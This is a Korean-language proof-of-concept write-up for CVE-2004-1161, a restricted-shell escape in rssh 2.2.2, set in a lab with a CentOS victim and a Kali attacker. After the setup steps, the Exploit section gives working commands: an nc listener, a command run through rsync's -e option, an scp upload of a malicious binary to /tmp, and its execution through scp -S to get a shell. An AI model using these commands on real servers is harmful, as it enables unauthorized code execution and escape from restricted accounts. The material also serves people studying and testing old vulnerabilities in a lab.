

# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS             | IP              | App            |
| :---     | :---           | :---            | :---           |
| Victim   | CentOS 7       | 192.168.108.174 | [rssh-2.2.2-1.FC2.i386](https://github.com/2jinu/CVE/raw/main/RCE/%5BLinux%5D%20CVE-2004-1161/file/rssh-2.2.2-1.FC2.i386.rpm) |
| Attacker | Kali 2019      | 192.168.108.132 |                |

# **Setting**

필요 라이브러리 설치

```sh
root@srv:~# yum -y install ld-linux.so.2
root@srv:~# rpm -e --nodeps -ivh rssh-2.2.2-1.FC2.i386.rpm
root@srv:~# adduser -d /home/"username" "username"
root@srv:~# passwd "username"
root@srv:~# echo /usr/bin/rssh >> /etc/shells
root@srv:~# usermod -s /usr/bin/rssh "username"
```

rssh 설정파일 수정

```
/etc/rssh.conf에서 allowscp와 allowsftp 주석 해제
```


# **Exploit**

```sh
root@kali:~# apt-get install sshpass
root@kali:~# nc -nvlp 포트번호
root@kali:~# sshpass -p'비밀번호' ssh -oStrictHostKeyChecking=no 사용자 계정@피해 서버 'rsync -e "touch /tmp/exploit --" localhost:/dev/null /tmp'
root@kali:~# sshpass -p'비밀번호' scp -oStrictHostKeyChecking=no 악성코드 명 사용자 계정@피해 서버:/tmp/악성코드 명
root@kali:~# sshpass -p'비밀번호' ssh -oStrictHostKeyChecking=no 사용자 계정@피해 서버 'scp -S /tmp/악성코드 명 localhost:/dev/null /tmp'
```




# **etc**

rssh : scp, sftp, cvs, rdist, rsync만 사용할 수 있는 쉘